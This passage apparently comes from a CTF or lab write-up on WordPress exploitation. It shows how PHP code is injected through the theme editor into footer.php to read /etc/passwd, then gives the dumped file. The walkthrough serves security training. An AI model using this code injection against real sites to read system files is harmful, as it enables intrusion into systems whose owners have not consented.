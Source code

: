 ![wordpress, admin interface](/media/2015.04/wordpress_admin.png){: .image-process-article-image}

As we want to read a file on the system, let's put some PHP code in the theme:
We go to Appearance -> Editor -> Footer (footer.php) and add some PHP code in
order to execute it, let's get the `/etc/passwd` file :

    :::php
     <?php
    $myfile = fopen("/etc/passwd", "r") or die("Unable to open file!");
    echo fread($myfile,filesize("/etc/passwd"));
    fclose($myfile);
    ?>

When we reload the index page we got the `/etc/password` file in the footer:

    :::text
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    libuuid:x:100:101::/var/lib/libuuid:
    syslog:x:101:104::/home/syslog:/bin/false
    messagebus:x:102:105::/var/run/dbus:/bin/false
    user:x:1000:1000:user,,,:/home/user:/bin/bash